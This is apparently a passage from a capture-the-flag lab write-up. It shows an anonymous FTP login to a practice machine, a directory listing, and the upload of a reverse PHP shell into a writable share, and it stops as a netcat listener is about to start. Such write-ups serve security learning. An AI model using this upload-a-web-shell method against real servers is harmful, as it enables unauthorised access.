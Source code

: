 The ```important.jpg``` image is just a meme:
![meme image](/assets/images/Startup/Startup_meme.png)

The ```notice.txt``` might be interesting, as it seems to give us a username:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

## Setting Foothold ##
Alright, now let's login to the ```FTP``` server anonymously and upload a reverse php shell and access it through the previously found directory.
```
ftp 10.10.133.97
Connected to 10.10.133.97.
220 (vsFTPd 3.0.3)
Name (10.10.133.97:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.01 secs (360.3801 kB/s)
```
Let's start the ```netcat``` listener
```
```